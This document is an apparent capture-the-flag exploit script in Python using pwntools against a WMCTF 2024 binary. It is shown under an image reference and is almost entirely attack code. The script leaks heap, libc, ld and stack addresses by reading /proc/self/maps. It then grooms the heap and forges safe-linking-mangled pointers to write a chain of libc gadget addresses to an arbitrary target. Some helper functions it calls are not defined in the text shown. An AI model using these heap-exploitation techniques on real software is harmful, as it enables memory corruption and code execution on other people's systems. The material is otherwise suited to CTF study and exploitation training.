 ```python
def load(filename):
    p.sendlineafter(b"Enter your choice: ",str(4))
    p.sendlineafter(b"Enter the file name: ",filename)

def save(index):
    p.sendlineafter(b"Enter your choice: ",str(5))
    p.sendlineafter(b"Enter the book idx: ",index)

def show(index):
    p.sendlineafter(b"Enter your choice: ",str(6))
    p.sendlineafter(b"Enter the book idx: ",index)

def exit():
    p.sendlineafter(b"Enter your choice: ",str(7)) 

p=process("./pwn")
gdb.attach(p)
pause()
p.sendlineafter("Enter your name: ",b"llk")

load(b"/proc/self/maps")
show(str(1))

heappart=(p.recvuntil(b" rw-p 00000000 00:00 0                          [heap]",drop=True)).decode('utf-8')
libcpart=(p.recvuntil(b" r--p 00000000 08:03 1311935                    /home/llk/Desktop/pwn/2024_WMCTF/magicpp_e4a2bf175f5943f40cd83921b9b43853/libc.so.6",drop=True)).decode('utf-8')
ldpart=(p.recvuntil(b" r--p 00000000 08:03 788592                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",drop=True)).decode('utf-8')
stackpart=(p.recvuntil(b" rw-p 00000000 00:00 0                          [stack]",drop=True)).decode('utf-8')

heap=int(heappart[-25:-13],16)
libc=int(libcpart[-25:-13],16)
stack=int(stackpart[-25:-13],16)
ld=int(ldpart[-25:-13],16)
print(f"Heap Address: {hex(heap)}")
print(f"Libc Address: {hex(libc)}")
print(f"Stack Address: {hex(stack)}")
print(f"ld Address: {hex(ld)}")

insert(str(0),str(1),str(0x3c0),str(1))
delete(str(2))
for i in range(21):
    insert(str(0),str(1),str(1),str(1))

payloa=(libc+0x000000000021A0A0)^((heap+0x11000)>>12) # dest
insert(str(payloa),str(1),str(1),str(1))
payload=-(0x3a040+ld)
print("+++++++++++++++++"+hex(payload))
insert(str(payload),str(1),str(1),str(1))

insert(str(1),str(1),str(0x3c0),str(1))
pause()

payload=p64(0x19a144+libc)+p64(0xC5BF8+libc)+p64(0x1a2140+libc)+p64(0x148303+libc)+p64(0x199700+libc)+p64(0x28170+libc)+p64(0x28180+libc)+p64(0x80520+libc)
insert(str(1),str(1),str(0x3c0),payload) # write to dest

# .text:000000000013B748                 mov     rsi, [rsp+30h]
# .text:000000000013B74D                 mov     rdi, [rsp+18h]
# .text:000000000013B752                 call    j_strcpy

```